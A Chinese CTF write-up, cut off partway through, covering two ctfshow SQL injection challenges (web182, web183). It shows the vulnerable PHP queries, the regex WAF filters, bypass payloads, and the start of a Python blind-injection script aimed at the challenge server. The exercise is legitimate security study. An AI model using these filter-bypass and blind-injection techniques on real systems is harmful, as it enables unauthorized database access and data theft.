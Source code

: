 
## web182（空格，注释绕过）
```sql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";

//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select|flag/i', $str);
  }
```
没错，这个题群主又手滑打错了，非预期：1'or(1)limit%0c21,1--%0c-
预期：
多过滤了flag，但是没有吊用
payload：1234'or(id=26)and'a'='a
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638887531672-135b5917-d0b8-423e-8748-f0b72b24d9b9.png)

## web183（盲注）
```sql
//拼接sql语句查找指定ID用户
  $sql = "select count(pass) from ".$_POST['tableName'].";";
  
  //对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
  }
  
  //返回用户表的记录总数
      $user_count = 0;
```
这个题页面上没有输入点也没有回显点，但仔细观察就会发现，需要我们POST一个tableName，然后在user_count返回查询数，比如举个例子，根据前几个题的经验数据库应该是ctfshow_user，那么就可以
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638948602499-306c2003-e261-497f-b3d1-9fbc02dcf88b.png)
返回22，确实查到了，但怎么利用呢，考虑where，使条件可控
payload：tableName=`ctfshow_user`where`pass`regexp('ctfshow')
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638948763216-81fc3b6a-bf9c-420e-a3b6-2d5f629163d0.png)
查到了flag的前七个字母，返回1证明确实存在，那么就可以进行盲注了，一位一位的查，最后得到答案
poc：

```python
'''
Author: KonDream
Date: 2021-12-08 00:09:13
LastEditors:  KonDream
LastEditTime: 2021-12-08 15:34:20
Description:  
'''
import requests
import string
url = "http://431214d2-96c7-435b-a473-d31a7e0d2a78.challenge.ctf.show/select-waf.php"

payload = "`ctfshow_user`where(substr(`pass`,{},1)regexp('{}'))"

string = string.ascii_lowercase + string.digits + '{-}'

ans = "ctfshow{"

for i in range(9, 46):
    for j in string:
```